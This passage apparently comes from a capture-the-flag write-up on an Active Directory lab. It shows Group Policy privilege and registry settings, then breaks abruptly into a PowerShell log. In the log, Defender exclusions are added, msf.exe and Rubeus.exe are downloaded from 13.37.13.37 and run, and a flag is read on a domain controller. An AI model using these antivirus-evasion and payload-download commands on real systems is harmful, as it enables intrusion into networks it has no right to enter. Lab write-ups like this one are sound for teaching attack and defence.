```ini
SeInteractiveLogonRight = *S-1-5-9,*S-1-5-32-550,*S-1-5-32-549,*S-1-5-32-548,*S-1-5-32-551,*S-1-5-32-544
SeLoadDriverPrivilege = *S-1-5-32-550,*S-1-5-32-544
SeMachineAccountPrivilege = *S-1-5-11
SeNetworkLogonRight = *S-1-5-32-554,*S-1-5-9,*S-1-5-11,*S-1-5-32-544,*S-1-1-0
SeProfileSingleProcessPrivilege = *S-1-5-32-544
SeRemoteShutdownPrivilege = *S-1-5-32-549,*S-1-5-32-544
SeRestorePrivilege = *S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeSecurityPrivilege = *S-1-5-32-544
SeShutdownPrivilege = *S-1-5-32-550,*S-1-5-32-549,*S-1-5-32-551,*S-1-5-32-544
SeSystemEnvironmentPrivilege = *S-1-5-32-544
SeSystemProfilePrivilege = *S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420,*S-1-5-32-544
SeSystemTimePrivilege = *S-1-5-32-549,*S-1-5-32-544,*S-1-5-19
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
SeEnableDelegationPrivilege = *S-1-5-32-544
[Version]
signature="$CHICAGO$"
Revision=1
```

The settings in this GPO are related to LDAP signing, SMB signing, and other privilege rights. These settings are commonly found in the Default Domain Policy.

The Default Domain Policy and Default Domain Controller Policy are the two default GPOs created when a new Active Directory domain is created.

There is however a third GPO, `{8A2E9662-A0D0-4BAD-8961-1A4442799FC8}`. This GPO also contains some other files, such as `registry.pol`. The `registry.pol` file contains some of the other settings applied by the GPO, but in a binary format. Let's first take a look at the `GptTmpl.inf` file:

```ini
[Unicode]
Unicode=yes
[System Access]
MinimumPasswordLength = 14
LockoutBadCount = 0
[Registry Values]
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\DisablePasswordChange=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RefusePasswordChange=4,1
MACHINE\System\CurrentControlSet\Control\Lsa\MSV1_0\RestrictReceivingNTLMTraffic=4,2
MACHINE\System\CurrentControlSet\Control\Lsa\MSV1_0\RestrictSendingNTLMTraffic=4,2
MACHINE\System\CurrentControlSet\Services\LDAP\LDAPClientIntegrity=4,2
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RestrictNTLMInDomain=4,7
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LdapEnforceChannelBinding=4,2
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,2
MACHINE\System\CurrentControlSet\Control\Lsa\DisableDomainCreds=4,0
MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\Kerberos\Parameters\SupportedEncryptionTypes=4,24
[Version]
signature="$CHICAGO$"
Revision=1
```


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      